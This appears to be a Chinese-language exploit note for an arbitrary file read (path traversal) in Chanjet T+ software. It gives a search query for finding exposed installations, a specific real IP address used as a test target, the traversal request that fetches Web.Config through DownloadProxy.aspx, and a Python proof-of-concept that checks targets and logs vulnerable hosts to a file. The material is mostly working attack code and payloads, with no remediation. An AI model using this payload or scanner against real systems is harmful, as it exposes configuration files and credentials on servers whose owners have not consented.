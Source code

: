 ## 一、资产搜索

```
app="畅捷通-TPlus"
```

## 二、网站测试

```
http://101.200.208.174:9999
```

## 三、验证漏洞

```
/tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../Web.Config
```

![image-20240908173509448](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240908173509448.png)

## 四、POC

```
def poc(target):
    payload = "/tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../Web.Config"
    res1 = requests.get(url=target,verify=False,timeout=5)
    if res1.status_code == 200:
        res2 = requests.get(url=target+payload,verify=False,timeout=5)
        if "configuration" in res2.text:
            with open("result.txt","a",encoding='utf-8') as f:
                f.write(f"[+]{target}\n")
                f.close()
                print(f"[+]{target}存在文件读取漏洞")
        else:
            print(f"[-]{target}不存在文件读取漏洞")
    else:
        print("访问超时，请手动测试！！！")
```

## 五、测试结果

![image-20240908173629846](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240908173629846.png)

